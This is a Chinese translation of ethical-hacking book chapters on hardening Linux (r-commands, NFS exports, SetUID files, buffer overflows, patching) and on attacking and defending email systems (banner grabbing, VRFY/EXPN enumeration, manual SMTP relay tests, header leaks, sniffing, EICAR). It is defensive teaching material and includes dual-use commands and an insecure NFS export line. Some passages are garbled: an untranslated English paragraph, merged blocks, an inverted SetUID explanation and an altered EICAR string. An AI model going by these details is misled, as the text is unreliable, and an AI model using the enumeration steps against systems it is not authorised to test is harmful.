### 针对 .rhosts 和 hosts.equiv 文件攻击的防范措施

使用以下两种防范措施，防止黑客针对你的 Linux 系统中的 `.rhosts` 和 `hosts.equiv` 文件进行攻击。

#### 禁用命令

防止这些文件被滥用的好方法是禁用 BSD r 命令。你可以通过以下两种方式禁用这些命令：

*   在 `inetd.conf` 中注释掉以 `shell`、`login` 和 `exec` 开头的行。

*   编辑 `/etc/xinetd.d` 目录中的 `rexec`、`rlogin` 和 `rsh` 文件。在文本编辑器中打开每个文件，并将 `disable=no` 修改为 `disable=yes`，如 Figure 13-8 所示。


FIGURE 13-8:  显示禁用选项的 rexec 文件。


在 Red Hat Enterprise Linux，您可以使用 setup 程序禁用 BSD r 命令：

1. **在命令行提示符处进入 setup。**

2. **进入 system-config-services。**

3. **选择合适的服务。**

4. **点击 Disable。**

#### 阻止访问

阻止恶意访问 `.rhosts` 和 `hosts.equiv` 文件的几种措施：

*   在防火墙上阻止伪造地址，如我在`第 9 章`中所述。

*   仅为每个文件的所有者设置读取权限。

    *   `.rhosts`：在每个用户的主目录中输入命令：

        `chmod 600 .rhosts`

    *   `hosts.equiv`：在 `/etc` 目录中输入命令：

        `chmod 600 hosts.equiv`

您也可以使用开源 Tripwire（[`http://sourceforge.net/projects/tripwire`](http://sourceforge.net/projects/tripwire)）来监控这些文件，并在访问或修改时发出警报。

### 检查 NFS 的安全性

网络文件系统 (NFS) 用于在本地机器上挂载远程文件系统（类似于 Windows 的共享）。鉴于 NFS 的远程访问特性，它显然面临许多安全风险。我在此章节中介绍了额外的存储漏洞和攻击方式，详见`第 16 章`。

#### NFS 攻击

如果 NFS 配置不当或配置被篡改 —  — 例如，`/etc/exports` 文件包含允许全世界读取整个文件系统的设置 —  — 远程黑客可以轻松获得远程访问并对系统进行任意操作。假设没有访问控制列表（ACL）在 place，只需在 `/etc/exports` 文件中加入一行，如下所示：

`/ rw`

该行表示任何人都可以以读写方式远程挂载根分区。下面的条件也必须满足：

*   NFS 守护进程 (nfsd) 必须运行，同时 portmap 守护进程也必须运行，以将 NFS 映射到 RPC。

*   防火墙必须允许 NFS 流量通过。

*   允许远程访问 NFS 服务器的系统必须放在 `/etc/hosts.allow` 文件中。

此远程挂载功能易于误配置，通常与 Linux 管理员对共享 NFS 挂载的误解有关，他们选择最简便的方法使其工作。如果有人获得远程访问，系统即失去安全。

### NFS 攻击的防范措施

防范 NFS 黑客攻击的最佳策略取决于是否需要该服务。

*   如果不需要 NFS，请禁用它。

*   如果需要 NFS，请实施以下防范措施：

    *   在防火墙上过滤 NFS 流量 —  — 通常是 UDP 端口 111（端口映射端口），如果您希望过滤所有 RPC 流量。

    *   为特定主机添加网络访问控制列表（ACL）以限制访问范围。

    *   确保 `/etc/exports` 和 `/etc/hosts.allow` 文件配置正确，将外部世界排除在网络之外。

### 检查文件权限

在 Linux 中，特殊文件类型允许程序以文件所有者的权限运行：SetUID（用户 ID）和 SetGID（组 ID）。

SetUID 和 SetGID 在用户运行需要完整系统访问权限的程序时是必需的。例如，当用户运行 `passwd` 程序更改密码时，程序会在没有 root 或其他用户权限的情况下加载并执行，这样用户可以在不涉及 root 账户的情况下更新密码数据库。

#### 文件权限攻击

默认情况下，拥有 root 权限的恶意程序很容易被隐藏。外部攻击者或恶意内部人员可能利用 SetUID 和 SetGID 在攻击程序中隐藏黑客文件（如 rootkit）。这可以通过 SetUID 和 SetGID 编码在攻击程序中实现。

#### 防范文件权限攻击的措施

您可以通过手动和自动化方法检测恶意程序。

##### 手动检查

下面的命令可以识别并在屏幕上打印出 SetUID 和 SetGID 程序：

*   配置为 SetUID 的程序：

    `find / -perm -4000 –print`

*   配置为 SetGID 的程序：

    `find / -perm -2000 –print`

*   世界可读的文件：

    `find / -perm -2 -type f –print`

*   隐藏文件：

    `find / -name ".*"`

您可能在每个类别中有数百个文件，因此不要惊慌。发现文件拥有这些属性时，请确保它们的属性是预期的，通过查阅文档或在 Internet 上搜索，或将其与已知安全的系统或备份数据进行比较。

请留意系统，监控任何新出现的 SetUID 或 SetGID 文件。

##### 自动检测

您可以使用自动化文件完整性监控程序，在文件属性变更时发出警报。这是我推荐的做法，比持续手动检查更为便捷。安全控制可以包括：

*   变更检测应用程序，如开源 Tripwire，可帮助您跟踪何时、何地发生变更。

*   文件监控程序，如 COPS（请将浏览器指向 `ftp://ftp.cerias.purdue.edu/pub/tools/unix/scanners/cops`），可查找状态变更的文件，例如新增 SetUID 或移除 SetGID。

### 查找缓冲区溢出漏洞

RPC 及其他易受攻击的守护进程是缓冲区溢出攻击的常见目标。缓冲区溢出攻击是黑客修改系统文件、读取数据库文件等的常用手段。

#### 攻击

在缓冲区溢出攻击中，攻击者手动向受害 Linux 机器发送字符串，或编写脚本自动发送。这些字符串包含以下内容：

*   处理器指令：让 CPU 不执行任何操作。

*   恶意代码，用于替换被攻击的进程。例如，`exec ("/bin/sh")` 会创建一个 shell 命令提示符。

*   指向恶意代码起始位置的指针。

如果被攻击的应用程序（如 FTP 或 RPC）以 root 运行，攻击者即可获得 root 权限的远程 shell。Linux 中的典型易受攻击软件包括 Samba、MySQL 和 Mozilla Firefox。根据版本，这些软件可以使用商业或免费工具（如 Metasploit [`https://www.metasploit.com`](https://www.metasploit.com/)）来获取远程命令行、添加后门用户、更改文件所有权等。我在第 `第 12 章` 中介绍了 Metasploit。

#### 防范缓冲区溢出攻击的措施

三大主要防范措施可帮助防止缓冲区溢出攻击：

*   禁用不必要的服务。

*   使用防火墙或主机入侵防御系统（IPS）保护 Linux 系统。

*   启用其他访问控制机制，如 TCP Wrappers，通过密码验证用户。

    不要仅通过 IP 地址或主机名启用访问控制，这很容易被伪造。

如常，请确保系统已安装最新的内核和软件更新。

### 检查物理安全

某些 Linux 漏洞涉及攻击者在系统控制台上的操作 —  — 这在内部威胁方面是完全可能的。

#### 物理安全攻击

如果攻击者位于系统控制台，任何操作皆可，包括通过 Ctrl+Alt+Delete 重启系统（即使没有人登录）。重启后，攻击者可以以单用户模式启动系统，从而清除 root 密码或读取整个 shadow 密码文件。我在第 `第 8 章` 中介绍了密码 cracking。

#### 防范物理安全攻击的措施


-   编辑您的 `/etc/inittab` 文件，并在 [Figure 13-9 的最后一行中，在 `ca::ctrlaltdel:/sbin/shutdown -t3 -r now` 前面加上 `#` 号注释，以禁用通过 Ctrl+Alt+Delete 重启系统的功能。这会阻止他人通过按下 Ctrl+Alt+Delete 来重启系统。请注意，此更改同样会阻止您合法地使用 Ctrl+Alt+Delete。


 FIGURE 13-9:  /etc/inittab 显示允许通过 Ctrl+Alt+Delete 关闭系统的行。

-   对于基于 Linux 的笔记本电脑，请使用 WinMagic（[`https://www.winmagic.com`](https://www.winmagic.com)）或 Symantec EndPoint Encryption（[`https://www.symantec.com/products/endpoint-encryption`](https://www.symantec.com/products/endpoint-encryption)）的磁盘加密软件。如果不使用，当笔记本电脑丢失或被盗时，您可能会面临数据泄露，更不用说州和联邦合规性以及披露法规的要求。这可不好！

如果您相信有人最近通过物理接触或利用弱密码或缓冲区溢出等漏洞访问了您的系统，您可以使用名为 `last` 的程序查看系统的最近几次登录，以检查是否有异常登录 ID 或登录时间。该程序会查看 `/var/log/wtmp` 文件并显示最近登录的用户。如果您想查看文件的前几行（前十行），可以输入 **last | head** 来查看最近的登录。

## 执行通用安全测试

评估 Linux 和 macOS 系统上的关键且常被忽视的安全问题，例如以下内容：

*   影子密码文件中的配置错误或未经授权的条目，可能会提供隐蔽的系统访问。

*   密码复杂度要求。

*   等同于 root 的用户。

*   在 cron（脚本调度程序）中配置的可疑自动任务。

*   系统二进制文件的签名检查。

*   检查根套（rootkits）。

*   网络配置，包括防止包伪造和其他拒绝服务（DoS）攻击的措施。

*   系统日志文件的权限。

您可以手动执行这些评估，或使用自动化工具。Figure 13-10 展示了 Tiger 安全审计工具（[`www.nongnu.org/tiger`](http://www.nongnu.org/tiger)）的启动，而 Figure 13-11 则展示了审计结果的一部分。真是物超所值！


 FIGURE 13-10:  运行 Tiger 安全审计工具。


 FIGURE 13-11:  Tiger 工具的部分输出。

Tiger 的替代方案包括 Linux Security Auditing Tool（[`http://usat.sourceforge.net`](http://usat.sourceforge.net)）和 Bastille Unix（[`http://bastille-linux.sourceforge.net`](http://bastille-linux.sourceforge.net)）。

## 修补

持续的修补或许是您最有效增强和维护 Linux 和 macOS 系统安全的措施。无论您使用哪种 Linux 发行版，使用工具协助修补可以让您的工作更轻松。

我经常发现 Linux 和 macOS 处于补丁管理循环之外。由于关注 Windows 修补，许多网络管理员会忽略网络中其他系统的补丁。请不要陷入这个陷阱，尤其是随着 macOS 使用量的增长。

即使是被认为已很安全的操作系统，修补也是关键。例如，macOS High Sierra 最近有两个漏洞影响了大量 Mac 电脑。第一个漏洞在无需密码的情况下提供了完整的 root 用户访问权限，第二个漏洞在输入任何管理员用户名并配合随机密码时，可访问 App Store 设置。这一事实凸显了保持警惕、快速响应并及时修补系统的重要性。即使用户自行带入 Mac，您也需要确保及时修补，并且能够在可能的情况下强制执行修补。您的业务网络在此！

### 分发更新

对于 Linux，各发行版的流程各不相同。您可以根据具体发行版使用以下工具：

-   **Red Hat:** 以下工具用于更新 Red Hat Linux 系统：

    -   RPM 包管理器，是 Red Hat GUI 图形桌面中的图形用户界面（GUI）应用程序，用于管理带有 `.rpm` 扩展名的文件，Red Hat 及其他免费和开源开发者使用此格式包装其程序。RPM 包管理器最初是 Red Hat 系统，但现在可用于许多 Linux 版本。

    -   up2date，是 Red Hat、Fedora 和 CentOS 中包含的命令行、基于文本的工具。

-   **Debian:** 您可以使用随操作系统自带的 Debian 包管理系统（dpkg）来更新 Debian Linux 系统。

-   **Slackware:** 您可以使用随操作系统自带的 Slackware 包工具（pkgtool）来更新 Slackware Linux 系统。

-   **SUSE:** SUSE Linux 包含 YaST2 软件管理。

除了 Linux 内核和操作系统更新外，请关注系统上的 Apache、OpenSSL、OpenSSH、MySQL、PHP 等软件程序，它们可能存在的弱点不容忽视。

-   对于 macOS，更新会本地推送到计算机，但默认情况下，由用户自行安装更新。

### 多平台更新管理器

商业修补管理工具提供额外功能，例如将修补与漏洞关联并自动部署相应的修补。可帮助 Linux 和 macOS 修补管理的商业工具包括 ManageEngine（[`https://www.manageengine.com/products/desktop-central/mac-management.html`](https://www.manageengine.com/products/desktop-central/mac-management.html)）、GFI LanGuard（[`https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard/specifications/patch-management-for-operating-systems`](https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard/specifications/patch-management-for-operating-systems)）以及 KACE Systems Management Appliance（[`https://www.quest.com/products/kace-systems-management-appliance`](https://www.quest.com/products/kace-systems-management-appliance)）。

## 第 5 部分

## 黑客应用程序

在这一部分……

-   发现电子邮件和 Voice over Internet Protocol（VoIP）对您的安全态势的影响。

-   了解常见的应用程序缺陷如何创造不必要的业务风险。

-   理解数据库和存储系统如何带来最大的安全挑战。

## 第 14 章

## 通信和消息传递系统

## 这一章

**攻击电子邮件系统**

**袭击即时通信**

**袭击 Voice over IP 应用程序**

通信系统和协议（如电子邮件和 Voice over Internet Protocol（VoIP））常常创造被忽视的漏洞。为什么？在我的经验中，通信软件（无论是服务器还是客户端层面）之所以容易受到攻击，是因为网络管理员往往认为防火墙和防病毒软件就足以阻止问题，或者他们根本忽略了这些系统的安全。

本章将向您展示如何测试常见的电子邮件和 VoIP 问题，并列出关键的防护措施，帮助防止这些攻击。

## 介绍消息传递系统漏洞


-   几乎所有的即时通讯应用都是网络中的攻击目标。鉴于电子邮件的普及和商业依赖，几乎任何东西都可能成为目标。同样适用于 VoIP。恶意行为者利用这些工具能做的事简直令人毛骨悚然。

-   在即时通讯系统中，一个根本性的弱点是许多支持协议在设计时并未考虑安全性——尤其是几十年前开发的协议，当时安全问题还不是现在这么严重。有趣的是，即使是现代即时通讯协议（或至少是协议的实现）也仍然容易受到严重的安全问题的影响。此外，便利性和易用性往往超过安全的需求。

-   针对即时通讯系统的攻击层次不一：有些只是小 annoyances（烦人的事情），而其他则会严重损害您的信息以及组织的声誉。针对即时通讯系统的恶意攻击包括以下几种：

  *   传输恶意软件。

  *   使服务器崩溃。

  *   获得工作站的远程控制权。

  *   捕获网络传输过程中的信息。

  *   查看服务器和工作站上存储的电子邮件。

  *   通过日志文件或网络分析器（常被称为流量分析或社交网络分析）获取即时通讯趋势信息，这些信息可能会向攻击者提示人与组织之间的对话（即流量分析或社交网络分析）。

  *   捕获并重放电话通话。

  *   收集内部网络配置信息，如主机名和 IP 地址。

-   这些攻击可能导致以下问题：未经授权（甚至可能是非法）的敏感信息泄露，以及信息的丢失。

### 认识并应对电子邮件攻击

本节描述的攻击利用了我在实际看到的最常见的电子邮件安全漏洞。好消息是，您可以消除或至少将大多数攻击降至最低，从而使您的信息不受威胁。一些攻击需要基础黑客技术：收集公开信息、扫描和枚举系统、以及发现并利用漏洞。其他攻击则可以通过发送电子邮件或捕获网络流量来完成。

#### 电子邮件炸弹

*电子邮件炸弹*通过制造对电子邮件软件乃至网络和互联网连接的服务器（DoS）条件来进行攻击，通过占用大量带宽，有时甚至需要大量存储空间。电子邮件炸弹可能导致服务器崩溃，并提供未经授权的管理员访问——即使在当今看似无限的存储容量下也如此。

##### 附件

攻击者可以通过发送数百甚至数千封带有非常大附件的电子邮件，对网络中的一个或多个收件人发起**附件过载攻击**。

##### 使用电子邮件附件的攻击

附件攻击的目标有两个：

*   **目标是电子邮件服务器**，导致完全服务中断的以下情况：

    *   *存储过载*：多个大型消息可以迅速填满电子邮件服务器的总存储容量。如果这些消息没有被服务器自动删除或用户手动删除，服务器将无法接收新消息。

        ![warning 此类攻击会对电子邮件系统造成显著的服务阻塞（DoS）问题，可能导致系统崩溃，或迫使您离线清理积压的垃圾邮件。例如，一次 100MB 文件附件发送 10 次到 100 名用户，就需要 100GB 的存储空间，这会迅速累积！    *   *带宽阻塞*：攻击者可以通过填满入站 Internet 连接来使电子邮件服务崩溃或变慢。即使系统能够自动识别并丢弃明显的附件攻击，伪造消息仍会消耗资源并延迟合法消息的处理。*   **针对单个电子邮件地址的攻击**如果该地址属于重要用户或群组，后果将非常严重。##### 针对附件过载攻击的防护措施以下措施可帮助防止附件过载攻击：*   **限制电子邮件或电子邮件附件的大小。** 检查此选项在电子邮件服务器的配置设置中（如 Microsoft Exchange 提供的设置）、电子邮件内容过滤系统，甚至在电子邮件客户端层面。*   **限制每个用户在服务器或云端的存储空间。** 此措施阻止大附件写入磁盘。如果希望阻止用户在内部网络内发起此类攻击，可限制入站和出站消息的大小。几 GB 的限制是一个合理的参考值，但具体限制应根据网络规模、存储可用性、业务文化等因素综合考虑。在设置限制前，请仔细斟酌。    考虑使用 SFTP、FTPS 或 HTTPS 而非电子邮件进行大文件传输。诸如 Dropbox for Business、OneDrive for Business 和 Sharefile 等云端文件传输服务也很常用。您也可以鼓励用户使用部门共享区或公共文件夹。通过这样做，您只需在服务器上存储一份文件，让收件人自行下载，从而减轻电子邮件服务器的负担。

     contrary to popular belief and use, the email system should *not* be an information repository, but that’s exactly what email has evolved into. An email server used for this purpose can create unnecessary legal and regulatory risks and can turn into a huge nightmare if your business receives an e-discovery request related to a lawsuit. An important part of your security program is developing an information classification and retention program to help with records management. But don’t go it alone. Get others such as your lawyer, human resources manager, and chief information officer involved. This practice can help ensure that the right people are on board and that your business doesn’t get into trouble for holding too many — or too few — electronic records in the event of a lawsuit or investigation.

##### 连接

黑客可以同时发送大量电子邮件到您的电子邮件系统。网络中的恶意软件也可以利用网络中开放的 Simple Mail Transfer Protocol（SMTP）中继（这通常是情况）从内部发起相同的行为。这些连接攻击可能导致服务器放弃处理任何入站或出站的 Transmission Control Protocol（TCP）请求。这会导致服务器卡死或崩溃，通常使攻击者获得管理员或 root 访问权限。

##### 使用电子邮件洪水的攻击

使用电子邮件洪水的攻击通常在垃圾邮件攻击和其他服务器（DoS）攻击中出现。

##### 针对连接攻击的防护措施

尽可能在网络边缘预防电子邮件攻击，理想情况下是在云端。您越能在电子邮件服务器和客户端之外阻止恶意流量，效果就越好。

许多电子邮件服务器允许您限制处理入站连接所用的资源数量，如 IceWarp 电子邮件服务器在 Figure 14-1 中所示的“最大同时线程数”设置。该设置在不同电子邮件服务器和防火墙中名称各异，请参阅相应文档。虽然完全阻止无限制的入站请求可能不可行，但您可以通过限制服务器处理的资源来减轻攻击影响。此设置限制了服务器的处理器时间，有助于在 DoS 攻击期间维持服务稳定。


FIGURE 14-1:  限制处理入站消息的资源数量。


即使在大型公司，或如果你使用 G Suite 或 Office 365 等云端邮件服务，也很可能没有理由在短时间内需要数千封入站邮件。

邮件服务器可以被编程为向服务发送邮件以执行自动化功能，例如 `当该账户收到消息时创建此电子商务订单`。如果系统中未内置 DoS 防护，攻击者可以使服务器和接收这些消息的应用程序崩溃，从而可能导致电子商务责任和损失。这种攻击在电子商务网站上更容易发生，尤其是当表单未使用 CAPTCHA（即完全自动化图灵测试以区分计算机与人类）时。当你针对后端与电子邮件地址关联的 Web 表单进行 Web 漏洞扫描时，这会带来问题。这种情况可能会产生数千甚至数百万封邮件。做好准备并让相关人员知晓风险是有价值的。我在 第 15 章 中讨论了 Web 应用安全。

#### 自动化邮件安全控制

你可以将以下措施作为额外的邮件系统安全层实施：

*   **Tarpitting**：`Tarpitting` 会检测发往未知用户的入站消息。如果你的邮件服务器支持 Tarpitting，它可以帮助防止针对你的服务器的垃圾邮件或 DoS 攻击。如果超过预定阈值（例如一分钟内超过 100 条消息），Tarpitting 功能会在一定时间内有效地屏蔽发送 IP 的流量。

*   **邮件防火墙**：Symantec、Barracuda Networks 等供应商的邮件防火墙和内容过滤应用可以大幅降低各类邮件攻击的风险。这些工具几乎可以保护邮件系统的每个方面。

*   **边界防护**：虽然不是专门针对邮件，但许多防火墙和入侵防御系统能够实时检测各种邮件攻击并立即阻断攻击者，这在攻击期间非常有用。

*   **CAPTCHA**：在基于 Web 的邮件表单上使用 CAPTCHA 可以帮助降低自动化攻击的影响，减少邮件洪水和 DoS 的风险，即使在执行看似无害的 Web 漏洞扫描时也适用。这些好处在测试你的网站和应用时尤为有用，我在 第 15 章 中进行了讨论。

### Banners

当黑客入侵邮件服务器时，第一步通常是进行基本的 **Banner 抓取**，以确认能否发现正在运行的邮件服务器软件。这一步是发现 SMTP、POP3 和 IMAP 服务器信息的最关键测试。

#### 收集信息

Figure 14-2 展示了通过在服务器 25 端口（SMTP）进行基本 Telnet 连接时显示的邮件服务器 Banner。在命令行中，只需输入 **`telnet *ip or_hostname_of_your_server* 25`** 即可打开一个 Telnet 会话，连接到 TCP 端口 25。


FIGURE 14-2:  一个显示服务器版本信息的 SMTP Banner。

邮件软件类型和服务器版本通常非常明显，能够给攻击者提供可能的攻击思路，尤其是当他们在漏洞数据库中搜索该版本已知漏洞时。Figure 14-3 展示了同一邮件服务器，但其 SMTP Banner 已从默认（即之前的那个）改为隐藏版本信息。


FIGURE 14-3:  隐藏版本信息的 SMTP Banner。

你可以通过 Telnet 到 110 端口（POP3）或 143 端口（IMAP）来获取 POP3 和 IMAP 邮件服务的信息。

如果你更改了默认的 SMTP Banner，并不意味着没有人能够确定版本。通用漏洞扫描工具通常能够识别你邮件服务器的版本。一个基于 Linux 的工具 `smtpscan`（[`www.freshports.org/security/smtpscan`](http://www.freshports.org/security/smtpscan)）根据服务器对 malformed SMTP 请求的响应来判断邮件服务器版本。Figure 14-4 展示了 smtpscan 对前文所示服务器（即 Figure 14-3）的扫描结果。smtpscan 工具能够在 Banner 隐藏的情况下检测到邮件服务器的产品和版本号。


FIGURE 14-4:  即使 SMTP Banner 被隐藏，smtpscan 仍能获取版本信息。

#### 对 Banner 攻击的防范措施

没有 100% 保险的方法可以隐藏 Banner 信息。我建议针对 SMTP、POP3 和 IMAP 服务器的 Banner 安全措施：

*   将默认 Banner 改为隐藏细节。

*   始终保持最新的软件补丁。

*   尽可能硬化服务器，参考中心化安全组织（Center for Internet Security）[`https://www.cisecurity.org`](https://www.cisecurity.org) 和 NIST（[`https://csrc.nist.gov`](https://csrc.nist.gov)）的最佳实践。

### SMTP 攻击

一些攻击利用 SMTP 弱点。该邮件通信协议已超过三十年历史，设计初衷是功能而非安全。

#### 账户枚举

攻击者可以通过 Telnet 到服务器 25 端口并执行 `VRFY` 命令来验证邮件账户是否存在。`VRFY`（即 *verify*）命令让服务器检查特定用户 ID 是否存在。垃圾邮件发送者常自动化此方法，进行目录收割攻击（DHA），即从服务器或域中获取有效邮箱地址，以便向目标发送垃圾邮件、钓鱼或携带恶意软件的消息。

#### 利用账户枚举的攻击

Figure 14-5 展示了使用启用 `VRFY` 的情况下，如何轻松验证邮箱地址是否存在。脚本化此攻击可一次测试成千上万的邮箱组合。


FIGURE 14-5:  使用 VRFY 验证邮箱地址是否存在。

SMTP 命令 `EXPN`（即 *expand*）可能允许攻击者验证服务器上存在的邮件列表。你可以在 25 端口 Telnet 到邮件服务器，如果你知道有哪些列表，则尝试 `EXPN`。Figure 14-6 显示了可能的返回结果。脚本化此攻击并测试成千上万的列表组合同样简单。


FIGURE 14-6:  使用 EXPN 验证邮件列表是否存在。

在这些测试中，你可能会收到错误信息。某些 SMTP 服务器（如 Microsoft Exchange）不支持 `VRFY` 和 `EXPN` 命令，而某些邮件防火墙会忽略它们或返回错误信息。

另一种稍微自动化的做法是使用 TamoSoft 的 Essential NetTools 中的 EmailVerify 程序（[`https://www.tamos.com/products/nettools`](https://www.tamos.com/products/nettools)），如 Figure 14-7 所示，输入邮箱地址后点击 **Start**；EmailVerify 会连接到服务器并假装发送邮件。


FIGURE 14-7:  使用 EmailVerify 验证电子邮件地址。

另一种捕获有效电子邮件地址的方法是使用 theHarvester（`https://github.com/laramies/theHarvester`），通过 Google 等搜索引擎获取地址。如我在 第 9 章 中所述，你可以从 `www.kali.org` 下载 Kali Linux 以烧录 ISO 镜像到光盘，或直接在 VMware 或 VirtualBox 中启动该镜像。在 Kali Linux 界面中，选择 **Applications ⇒ Information Gathering ⇒ SMTP Analysis ⇒ smtp-user-enum**，并输入 **smtp-user-enum –M VRFY –u \<想要确认的用户名\> -t 服务器 IP/主机名**，如 图 14-8 所示。


FIGURE 14-8:  使用 smtp-user-enum 采集电子邮件地址。

你也可以通过替换 `VRFY` 为 `EXPN`，或使用 `–U` 与包含用户名列表的文件来自定义 smtp-user-enum 查询。只需输入 **smtp-user-enum** 即可完成所有搜索选项。

#### COUNTERMEASURES AGAINST ACCOUNT ENUMERATION

如果你在运行 Exchange，则不必担心账户枚举问题。如果未在 Exchange 环境中运行，防止此类电子邮件账户枚举的最佳方式取决于是否需要启用 `VRFY` 和 `EXPN` 命令：

*   除非你需要远程系统从你的服务器收集用户和邮件列表信息，否则请禁用 `VRFY` 和 `EXPN`。

*   如果需要 `VRFY` 和 `EXPN` 功能，请查阅邮件服务器或邮件防火墙文档，看是否可以将这些命令限制为网络内的特定主机或互联网上的特定主机。

最后，与营销团队和 Web 开发人员合作，确保公司电子邮件地址未出现在组织的网站或社交媒体上，并教育用户不要这样做。

#### Relay

SMTP 中继让用户可以通过外部服务器发送邮件。开放的中继邮件服务器已不像过去那样是大问题，但仍需检查它们。垃圾邮件发送者和恶意黑客可以利用邮件服务器在假装不知情的开放中继所有者名义下发送垃圾邮件或恶意软件。

务必从网络内外两侧测试开放中继。如果在内部系统上进行测试，可能会出现误报，因为出站中继可能已配置并用于内部邮件客户端发送外部消息。如果客户端系统被入侵，情况可能正好是攻击者需要的 —  — 使用你的系统发起出站垃圾邮件或恶意软件攻击。

#### AUTOMATIC TESTING

以下是几种轻松测试服务器 SMTP 中继的方法：

*   **漏洞扫描器**：诸如 Nexpose 和 QualysGuard 等许多漏洞扫描器能够发现开放的邮件中继漏洞。

*   **基于 Windows 的工具**：例如 NetScanTools Pro（`www.netscantools.com`）。你可以使用 NetScanTools Pro 对邮件服务器进行 SMTP 中继检查，如 图 14-9 所示。

虽然某些 SMTP 服务器接受入站中继连接并使中继看起来工作，但这并不总是如此，因为初始连接可能被允许，但过滤实际上在后台进行。请通过检查发送的测试中继消息是否到达目标账户来确认邮件是否真的传递。


FIGURE 14-9:  使用 NetScanTools Pro SMTP Server Tests 检查开放的邮件中继。

在 NetScanTools Pro 中，输入 SMTP 服务器名称和你的发送域名。在 **Test Message Settings** 中，输入收件人邮箱地址和发送者邮箱地址。若测试成功，NetScanTools Pro 会弹出窗口显示 `Message Sent Successfully`。

你也可以在主 SMTP Server Tests 窗口查看结果，并通过点击 **View Results in a Web Browser** 然后点击 **View Relay Test Results** 生成正式报告。

#### MANUAL TESTING

你可以通过 Telnet 手动测试服务器是否允许 SMTP 中继，步骤如下：

1. **Telnet 到服务器的 25 端口。**

   可以通过两种方式实现：

   * 使用如 PuTTY（`https://www.chiark.greenend.org.uk/~sgtatham/putty`）等图形化 Telnet 应用。

   * 在 Windows 或 Linux 命令行中输入：

     ```
     telnet mailserver_address 25
     ```

   连接成功后应看到 SMTP 欢迎信息。

2. **输入命令告诉服务器“你好，我来自这个域”。**

   每条命令执行后会收到不同编号的回复，例如 `999 OK`，这些信息可以忽略。

3. **输入命令告诉服务器你的电子邮件地址。**

   示例：

   ```
   mail from:yourname@yourdomain.com
   ```

   你可以使用任何电子邮件地址替换 `yourname@yourdomain.com`。

4. **输入命令告诉服务器收件人地址。**

   示例：

   ```
   rcpt to:yourname@yourdomain.com
   ```

   同样，任何地址均可。

5. **输入命令告知服务器消息正在继续。**

   示例：

   ```
   data
   ```

6. **输入以下内容作为消息正文：**

   ```
   A relay test!
   ```

7. **以单独一行的点结束命令。**

   在第一个 Telnet 提示符处输入 **?** 或 **help** 可查看所有受支持的命令，并根据服务器不同获得命令使用帮助。

   最后的点标记消息结束。输入完该点后，若允许中继，消息将被发送。

8. **检查服务器是否允许中继：**

   * 观察是否收到类似 `Relay not allowed` 的回复。

     如果收到此类信息，则 SMTP 中继在服务器上未启用或因安全过滤被阻止（许多服务器会阻止看似从外部发来但实际来源于内部的消息）。

   * 若未收到任何回复，请检查收件箱是否收到已中继的邮件。

     若收到测试邮件，则说明服务器已启用 SMTP 中继，可能需要将其禁用，以免让垃圾邮件发送者或攻击者借此发送大量垃圾邮件或被列入黑名单，进而影响业务。

#### COUNTERMEASURES AGAINST SMTP RELAY ATTACKS

你可以在邮件服务器上实施以下防范措施，以禁用或至少控制 SMTP 中继：

*   **禁用邮件服务器上的 SMTP 中继。** 中继默认应已被禁用，但最好自行核查。如果不确定是否需要中继，通常不需要。你可以在服务器或防火墙配置中为特定主机启用中继。

*   **如果服务器支持，强制要求身份验证。** 你可以要求与邮件服务器域匹配的电子邮件地址进行密码验证。请参阅邮件服务器和客户端文档，了解如何配置此类验证。

#### Email header disclosures


如果您的电子邮件客户端和服务器使用常见的默认配置，恶意攻击者可能会获取以下关键信息：

*   电子邮件客户端机器的内部 IP 地址（可能导致内部网络的枚举，进而通过钓鱼和/或后续恶意软件感染进行利用）。

*   客户端和邮件服务器的软件版本，以及它们的漏洞。

*   主机名，这些主机名可能泄露您的网络命名约定。

#### TESTING

Figure 14-10 显示了我向免费网络账户发送的测试邮件中泄露的邮件头信息。如您所见，它泄露了关于我的邮件系统相当多的信息：

*   第三行 Received 信息披露了我的系统的主机名、IP 地址、服务器名称以及电子邮件客户端软件版本。

*   X-Mailer 行显示了我用来发送此消息的 Microsoft Outlook 版本。


FIGURE 14-10:  邮件头中泄露的关键信息。

#### COUNTERMEASURES AGAINST HEADER DISCLOSURES

防止邮件头信息泄露的最佳措施是配置您的邮件服务器或邮件防火墙，通过修改显示的信息或将其删除来重写邮件头。请查看邮件服务器或防火墙的文档，确认是否可以使用此方法。

如果重写邮件头不可用（或被您的互联网服务提供商禁止），您仍然可以阻止发送某些关键信息，例如服务器软件版本号和内部 IP 地址。

#### Capturing traffic

邮件流量（包括用户名和密码）可以通过网络分析仪或邮件数据包捕获器和重构器来捕获。

Mailsnarf 是 dsniff 包的一部分，它是一个邮件数据包捕获器和重构器（[`http://sectools.org/tool/dsniff`](http://sectools.org/tool/dsniff)）。此外，还有一款商业（且低成本）程序叫 NetResident（[`www.tamos.com/products/netresident`](http://www.tamos.com/products/netresident)）。您也可以使用 Cain & Abel（[`www.oxid.it/cain.html`](http://www.oxid.it/cain.html)）来突出邮件传输中的弱点。我在第 8 章（`#c08.xhtml`）中介绍了使用该工具及其他工具进行密码破解的方法。

如果流量被捕获，黑客或恶意内部人员可以入侵一台主机，并可能获得对相邻主机（如您的邮件服务器）的完整访问权限。

#### Malware

电子邮件系统经常受到病毒和蠕虫等恶意软件的攻击。最重要的测试之一是验证您的防病毒软件是否正常工作。

在开始测试防病毒软件之前，请确保您已加载最新的防病毒软件引擎和签名。

EICAR 提供了一个安全的选项，用于检查防病毒软件的有效性。尽管 EICAR 并非全面的恶意软件漏洞测试方法，但它是一个良好的、安全的起点。

EICAR 是一家欧洲基地的恶意软件思维库，它与防病毒供应商合作，提供这一基本系统测试。EICAR 测试字符串会以邮件正文或文件附件的形式传输，以便您观察服务器和工作站的响应。您在计算机上加载包含以下 68 个字符的文件，以查看防病毒软件或其他防病毒软件是否能够检测到它：

`X5O!P%@AP4\PZX54(P^)7CC)7)$EICAR STANDARD-ANTIMALWARE-TEST-FILE!$H+H*`

 下载包含该字符串的文本文件。该站点提供多个版本的文件。我建议使用压缩文件进行测试，以确保您的防病毒软件能够检测压缩文件中的恶意软件。

运行此测试时，您可能会看到防病毒软件的结果类似于 Figure 14-11。


FIGURE 14-11:  使用 EICAR 测试字符串测试防病毒软件。

